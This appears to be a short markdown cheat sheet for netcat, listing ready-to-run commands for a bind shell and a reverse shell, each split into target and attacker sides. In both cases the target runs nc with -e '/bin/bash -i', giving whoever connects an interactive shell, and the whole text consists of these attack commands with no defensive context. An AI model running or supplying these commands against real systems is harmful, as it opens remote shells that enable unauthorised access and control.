 # nc
## bind shell
  target
  ``` bash
  nc -l -p 1234 -e "/bin/bash -i"
  ```
  attacker
  ``` bash
  nc 127.0.0.1 1234 
  ```

## reverse shell
  target
  ``` bash
  nc 127.0.0.1 4321 -e "/bin/bash -i" 
  ```
  attacker
  ``` bash
  nc -l -p 4321
  ```

